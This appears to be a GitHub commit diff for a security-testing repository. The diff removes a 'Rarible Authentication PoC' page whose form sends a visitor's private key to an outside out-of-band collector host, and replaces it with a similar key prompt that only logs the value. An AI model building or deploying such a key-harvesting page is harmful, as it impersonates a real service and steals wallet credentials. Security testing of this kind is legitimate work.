

Before and after one commit to az0mb13/xsstest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-968 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,61 +1,37 @@
 <!DOCTYPE html>
 <html lang="en">
+
 <head>
-    <meta charset="UTF-8">
-    <meta http-equiv="X-UA-Compatible" content="IE=edge">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Rarible Authentication PoC</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            text-align: center;
-        }
+	<meta charset="UTF-8">
+	<meta name="viewport" content="width=device-width, initial-scale=1.0">
+	<title>Form Submission with JavaScript</title>
+</head>
 
-        h2 {
-            color: #333;
-        }
+<body>
 
-        form {
-            max-width: 300px;
-            margin: 0 auto;
-        }
+	<h1>Rarible Authentication</h1>
 
-        label {
-            display: block;
-            margin-bottom: 5px;
-            color: #333;
-        }
+	<form id="myForm">
+		<label for="privateKey">Private Key:</label>
+		<input type="text" id="privateKey" name="privateKey" required>
 
-        input[type="text"] {
-            width: 100%;
-            padding: 8px;
-            margin-bottom: 10px;
-            box-sizing: border-box;
-            border: 1px solid #ccc;
-            border-radius: 5px;
-        }
+		<button type="button" onclick="submitForm()">Submit</button>
+	</form>
 
-        input[type="submit"] {
-            background-color: #000;
-            color: #fff;
-            padding: 10px 15px;
-            border: none;
-            border-radius: 10px;
-            cursor: pointer;
-        }
+	<script>
+		function submitForm() {
 
-        input[type="submit"]:hover {
-            background-color: #333;
-        }
-    </style>
-</head>
-<body>
-    <h2>Enter your private key to authenticate to Rarible</h2>
-    <form id="raribleForm" action="https://cnr3wf12vtc0000rfd40gkhb68wyyyyyb.oast.fun" method="POST">
-        <label for="privateKey">Private Key:</label>
-        <input type="text" id="privateKey" name="privateKey" required>
-        <br>
-        <input type="submit" value="Submit">
-    </form>
+			var privateKey = document.getElementById('privateKey').value;
+
+			var formData = {
+				privateKey: privateKey
+			};
+
+			var jsonData = JSON.stringify(formData);
+			console.log(jsonData);
+		}
+	</script>
+
 </body>
+
 </html>
```
